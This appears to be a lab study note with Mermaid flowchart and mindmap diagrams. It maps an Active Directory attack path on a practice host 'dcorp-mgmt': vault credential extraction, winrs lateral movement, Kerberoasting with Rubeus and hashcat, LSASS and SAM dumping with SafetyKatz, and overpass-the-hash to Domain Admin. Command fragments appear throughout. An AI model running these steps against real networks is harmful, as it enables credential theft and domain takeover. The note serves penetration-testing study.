


# dcorp-mgmt — Vault Credentials, svcadmin DA & Kerberoasting

## Attack Path

```mermaid
flowchart TD
    START_A(["🔑 dcorp-adminsrv\nsrvadmin creds extracted"])
    START_B(["🔑 dcorp-ci\nciadmin shell"])

    subgraph access_a["Path A: srvadmin via Vault Creds"]
        VA1["srvadmin credentials\nextracted from adminsrv vault\nvault::cred /patch"]
        VA2["winrs -r:dcorp-mgmt -u:srvadmin\nEnter-PSSession as srvadmin"]
        VA3["✅ Shell on dcorp-mgmt\nas srvadmin"]
    end

    subgraph access_b["Path B: ciadmin Pivot"]
        VB1["ciadmin has local admin\non dcorp-mgmt"]
        VB2["winrs -r:dcorp-mgmt cmd\n(as ciadmin)"]
        VB3["✅ Shell on dcorp-mgmt\nas ciadmin"]
    end

    subgraph kerberoast["Phase 2: Kerberoasting"]
        K1["Enumerate SPNs\nGet-DomainUser -SPN\nGet-ADUser -Filter {ServicePrincipalName -ne '$null'}"]
        K2["Found: svcadmin\nSPN: dcorp-dc/svcadmin"]
        K3["Request TGS for svcadmin\nInvoke-Kerberoast -OutputFormat Hashcat\nRubeus.exe kerberoast"]
        K4["Crack hash offline\njohn --wordlist=rockyou.txt hash.txt\nhashcat -m 13100"]
        K5["✅ svcadmin password\n= Domain Admin"]
    end

    subgraph dump["Phase 3: Credential Extraction"]
        D1["SafetyKatz on dcorp-mgmt\nsekurlsa::logonpasswords"]
        D2["Extract DA creds\nif DA logged in"]
        D3["lsadump::sam\nLocal accounts"]
    end

    subgraph da["Phase 4: Domain Admin Access"]
        DA1["OverPass-the-Hash\nwith svcadmin NTLM\nRubeus asktgt /user:svcadmin /rc4:HASH"]
        DA2["OR use plaintext creds\nwinrs -r:dcorp-dc -u:svcadmin"]
        DA3["✅ Domain Admin\non dcorp-dc"]
    end

    START_A --> VA1 --> VA2 --> VA3
    START_B --> VB1 --> VB2 --> VB3
    VA3 & VB3 --> K1 --> K2 --> K3 --> K4 --> K5
    VA3 & VB3 --> D1 --> D2 & D3
    K5 --> DA1 --> DA3
    K5 --> DA2 --> DA3

    style START_A fill:#4CAF50,color:#fff
    style START_B fill:#4CAF50,color:#fff
    style VA3 fill:#FF9800,color:#fff
    style VB3 fill:#FF9800,color:#fff
    style K5 fill:#FF9800,color:#fff
    style DA3 fill:#f44336,color:#fff
```

## Mindmap

```mermaid
mindmap
  root((dcorp-mgmt))
    Access Methods
      srvadmin via Vault
        vault::cred /patch on adminsrv
        Credential extracted
        winrs as srvadmin
      ciadmin Pivot
        Local admin from Jenkins
        winrs -r:dcorp-mgmt
    Kerberoasting
      Enumerate SPNs
        Get-DomainUser -SPN
        Get-ADUser filter SPN
      Target: svcadmin
        SPN on dcorp-dc
        High-privilege account
      Extract TGS
        Invoke-Kerberoast
        Rubeus kerberoast
        Hashcat format
      Crack Offline
        John the Ripper
        Hashcat -m 13100
        rockyou.txt
      Result: DA password
    Credential Extraction
      SafetyKatz
        sekurlsa::logonpasswords
        Domain Admin if logged in
      lsadump::sam
        Local accounts
    Domain Admin
      OverPass-the-Hash
        Rubeus asktgt
        NTLM → TGT
      Plaintext login
        winrs to dcorp-dc
```
